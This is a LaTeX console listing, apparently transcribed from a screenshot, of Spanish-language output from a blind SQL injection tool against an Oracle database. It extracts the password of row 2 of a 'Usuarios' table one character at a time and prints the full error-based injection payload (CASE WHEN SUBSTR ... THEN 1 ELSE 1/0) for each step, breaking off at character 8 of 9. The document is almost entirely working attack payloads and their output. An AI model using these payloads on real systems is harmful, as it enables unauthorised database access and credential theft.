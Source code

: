 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{lstlisting}[style=console, basicstyle=\ttfamily\footnotesize]
 [+] Extrayendo el valor de 'password' para la fila 2...
 
 [+] Extrayendo carácter 1 de 9 para la fila 2...
 OK Carácter 1: 'p' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 1, 1) = 'p') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=2) = 1 --
 
 [+] Extrayendo carácter 2 de 9 para la fila 2...
 OK Carácter 2: 'a' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 2, 1) = 'a') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=2) = 1 --
 
 [+] Extrayendo carácter 3 de 9 para la fila 2...
 OK Carácter 3: 's' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 3, 1) = 's') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=2) = 1 --
 
 [+] Extrayendo carácter 4 de 9 para la fila 2...
 OK Carácter 4: 's' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 4, 1) = 's') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=2) = 1 --
 
 [+] Extrayendo carácter 5 de 9 para la fila 2...
 OK Carácter 5: 'w' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 5, 1) = 'w') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=2) = 1 --
 
 [+] Extrayendo carácter 6 de 9 para la fila 2...
 OK Carácter 6: 'o' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 6, 1) = 'o') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=2) = 1 --
 
 [+] Extrayendo carácter 7 de 9 para la fila 2...
 OK Carácter 7: 'r' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 7, 1) = 'r') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=2) = 1 --
 
 [+] Extrayendo carácter 8 de 9 para la fila 2...
 OK Carácter 8: 'd' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 8, 1) = 'd') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=2) = 1 --
 

\end{lstlisting}
\end{document}

